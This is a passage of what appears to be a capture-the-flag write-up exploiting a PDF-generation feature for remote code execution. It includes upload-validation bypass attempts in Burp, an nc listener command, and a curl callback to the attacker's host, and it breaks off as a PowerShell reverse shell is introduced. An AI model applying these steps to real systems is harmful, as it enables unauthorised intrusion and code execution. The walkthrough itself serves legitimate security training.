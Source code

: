1.  Put code in "Justification box"
    -   In code box (too long as 300 char limit) so intercepted in burp and then pasted full payload in-case we could bypass via this method.
    -   Out of code box (raw text) same as above.
    -   In code box then intercepted in burp and removed the tags same as above.

2.  In a logo file as html:
    -   Intercepted in burp and changed the mime/type to bypass validation.
    -   Created a png with a double extension and intercepted.


#### Getting Our RCE POC To Work! {#getting-our-rce-poc-to-work}

We can use the "Leave Request" template and enter all of the below placeholder information. We then set burp to intercept and press "Generate PDF" to create the `POST` request we can then grab the request and send it to Repeater.

-   {{< figure src="/ox-hugo/2025-04-18-090327_.png" >}}

In repeater we can paste the payload into the `leave_request` parameter, remember everything get's processed by the library when generating the PDF!

-   {{< figure src="/ox-hugo/2025-04-18-090353_.png" >}}

Boom we have pings coming back to our host machine so we know this host is vulnerable and we have RCE!

-   {{< figure src="/ox-hugo/2025-04-18-090410_.png" >}}


#### Testing If We Can Use Curl: {#testing-if-we-can-use-curl}

We can modify the payload to the below and setup a simple nc listener to see if we can get a call-back to ourselves.

1.  Create listener
    ```shell
    nc -nvlp 8888
    ```

2.  Modify the payload to be a curl request:
    ```nil
    curl  http://10.10.14.20:8888/testnc
    ```

    -   {{< figure src="/ox-hugo/2025-04-18-090740_.png" >}}
3.  We get a connection so we can curl down a script for it to be executed if want.
    -   {{< figure src="/ox-hugo/2025-04-18-090856_.png" >}}


### Getting A Reverse Shell: {#getting-a-reverse-shell}

I was going to use a download cradle to download and execute this, however I opted for
We are going to use a super simple base64 encoded powershell reverse shell available from revshells.com
